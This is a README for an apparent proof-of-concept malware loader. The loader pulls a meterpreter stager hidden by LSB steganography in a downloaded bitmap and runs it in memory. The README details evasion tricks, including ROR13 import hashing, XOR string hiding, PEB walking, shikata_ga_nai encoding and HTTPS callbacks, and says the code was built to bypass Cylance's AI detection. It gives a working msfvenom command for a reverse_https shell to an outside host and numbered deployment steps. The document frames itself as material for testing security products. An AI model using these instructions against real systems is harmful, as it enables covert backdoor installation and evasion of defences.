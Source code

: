 # Description
This is a test malware sample used to load LSB encoded code from the internet. This specific sample template works with LSB encoded bitmap files to extract a stager payload for meterpreter.

The goal is to demonstrate a means of loading malicious code onto a system
without ever touching disk. Additionally, the code leverages a method of
loading require API functionality via accessing the loaded modules directly
from the PEB (Process Execution Block).

This method allows the code to gain access to the Kernel32.dll functions in
order to load additionaly libraries using the LoadLibraryA exported function.
All of the functions loaded leverage a ROR13 hashing technique to avoid any
strings from showing up during static analysis. This makes it much more difficult
for an analysis system or signature detection system to determine the malicious
nature of the binary.

Any other strings that are required in raw form are encoded with a simple XOR
and offset. These strings will no longer be visible to static analysis, but can
easily be decoded at run time to generate required information (URLs, user agents,
etc).

Finally, since LSB steganography is leveraged to download the backdoor, there
are minimal malicious artifacts in the core binary that would allow any detection
from making a determination that this is malicious. The only point when it would
be possible to tell is after the meterpreter shell has been extracted from the
bitmap and loaded directly into memory. The stager payload leverages the executable
encoder shikata-ga-nai to obfuscate the staged payload that is retrieved from the
LSB encoded bitmap file. All communicate done from the meterpreter stager and shell
is done over HTTPS (SSL/TLS) to avoid network based indicators from tripping
security tools.

1. Generating the meterpreter stager:
  `msfvenom -p windows/meterpreter/reverse_https LHOST=10.248.189.74 LPORT=443 -b '\x00\xff' -e x86/shikata_ga_nai -i 3 -f raw`
2. Run the stego encoder with the binary output from above and a desired bitmap
3. Host the bitmap on some HTTP site
4. Set the desired target URL for the bitmap in Utils.h (LSB_TARGET_URL (see HideStrings))
5. Compile and run

Note:
  This is a sample to test malware detection capabilities on security software. The
  provided code was designed to bypass Cylance's AI based detection engine.

Summary of Tactics implemented:

  1. ROR13 hashing - Manually resolving imports
    * https://nickharbour.wordpress.com/2010/07/01/writing-shellcode-with-a-c-compiler/
    * https://www.fireeye.com/blog/threat-research/2012/11/precalculated-string-hashes-reverse-engineering-shellcode.html
  2. String Obfuscation - XOR with Offset
  3. LSB Steganography - encoding malware into benign picture file (used when downloading the meterpreter stage)
  4. In-memory execution - allocates space and launches payload directly from memory (never touch disk)
  5. SSL - communication over SSL to avoid network detection

--------

Future possibilities:

  1. Staged-Encoding - encodes the staged payload to look benign on the wire
  2. Unhooking/remapping binaries
  
  ## See Also
  
  The following two projects were used in conjuction with this project to facilitate the full POC:
  1. Hidestrings (https://github.com/sbremner/Hidestrings)
  2. LSBStego (https://github.com/sbremner/LSBStego)
